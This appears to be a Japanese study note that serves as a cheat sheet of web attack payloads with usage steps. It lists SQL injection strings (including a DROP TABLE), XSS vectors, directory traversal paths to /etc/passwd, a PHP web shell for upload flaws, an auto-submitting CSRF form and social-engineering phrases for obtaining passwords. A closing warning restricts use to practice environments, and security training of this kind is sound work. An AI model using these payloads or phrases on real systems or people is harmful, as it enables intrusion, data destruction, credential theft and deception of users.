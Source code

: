 ```yaml
---
created: 2025-09-17T10:42 (UTC +09:00)
tags:
  - 帰社日
  - 仕事
type:
author: My Name
---
```

# 捜査ツール 〜攻撃コードリスト〜

---

## 1. SQLインジェクション用ペイロード

- `' OR '1'='1`
- `' OR 1=1--`
- `admin' --`
- `' UNION SELECT null, sqlite_version(), null--`
- `'; DROP TABLE users; --`

### 使い方
- ログインや検索などの入力欄に上記の文字列を入力し、挙動やエラーメッセージを観察しよう。

---

## 2. クロスサイトスクリプティング（XSS）用ペイロード

- `<script>alert('XSS!')</script>`
- `<img src=x onerror=alert(1)>`
- `<svg/onload=alert(1)>`
- `<body onload=alert('XSS')>`

### 使い方
- 名前やコメント欄など、画面に表示される入力欄に上記の文字列を入力し、アラートが出るか確認しよう。

---

## 3. ソーシャルエンジニアリング用フレーズ例

- 「システム管理者です。パスワードを教えてください」
- 「緊急対応のため、認証情報が必要です」
- 「このリンクからログインし直してください（偽サイト）」

---

## 4. ディレクトリトラバーサル用ペイロード

- `../../../../etc/passwd`
- `..\\..\\..\\..\\windows\\win.ini`
- `%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
- `..%2f..%2f..%2f..%2fetc%2fpasswd`

### 使い方
- ファイル名やパスを指定する入力欄に上記の文字列を入力し、意図しないファイルが取得できるか確認しよう。

## 5. ファイルアップロード検証不備用ペイロード

- `<?php echo shell_exec($_GET['cmd']); ?>`（.phpファイルとしてアップロード）
- `<script>alert('XSS')</script>`（.html/.svgファイルとしてアップロード）
- 画像ファイルに悪意あるコードを埋め込む

### 使い方
- ファイルアップロード機能で上記のファイルをアップロードし、サーバー上で実行・表示されるか確認しよう。

## 6. CSRF対策なしの攻撃例

- 攻撃用HTML例：
  ```html
  <form action="http://ターゲットサイト/重要操作" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="submit" value="送信">
  </form>
  <script>document.forms[0].submit();</script>
  ```

### 使い方
- 上記HTMLを自分のサイトやローカルで開き、ターゲットサイトにログインした状態で実行し、意図しない操作が行われるか確認しよう。

---

## 注意

- 実際の業務システムや他人のサービスで絶対に使わないこと！
- あくまで学習・演習用の模擬環境でのみ使用してください
